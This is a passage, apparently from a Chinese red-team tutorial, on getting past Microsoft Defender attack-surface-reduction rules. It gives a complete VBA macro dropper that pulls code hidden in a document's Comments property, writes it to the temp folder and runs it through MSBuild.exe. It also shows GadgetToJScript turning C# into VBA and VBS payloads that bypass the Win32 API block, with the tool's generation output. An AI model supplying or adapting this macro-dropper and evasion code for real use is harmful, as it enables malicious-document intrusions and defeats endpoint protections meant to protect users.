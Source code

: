 上面文件可以这样执行
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe test.xml
```

唯一的要求是，我们要把这段代码放到磁盘上。 一种策略是把代码保存在文档的某个地方（比如注释），用宏来获取它，写到磁盘上并执行。(The only requirement is that we drop this code to disk.  One strategy could be to save the code somewhere in the document (such as the comments), fetch it with the Macro, write to disk and execute.)


1683863156748.jpg

宏
```
Sub Exec()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\code.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\code.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub
```

# Block Win32 APIs

> "This rule prevents VBA macros from calling Win32 APIs."(“此规则防止 VBA 宏调用 Win32API。”)

使用 [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript)调用可以绕过上面

创建一个新的.cs文件

```
using System;
using System.Runtime.InteropServices;

public class Program
{
    [DllImport("user32.dll", CharSet = CharSet.Unicode)]
    static extern int MessageBoxW(IntPtr hWnd, string lpText, string lpCaption, uint uType);

    public Program()
    {
        MessageBoxW(IntPtr.Zero, "Hello from GadgetToJScript", "Hello World", 0);
    }
}
```


[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs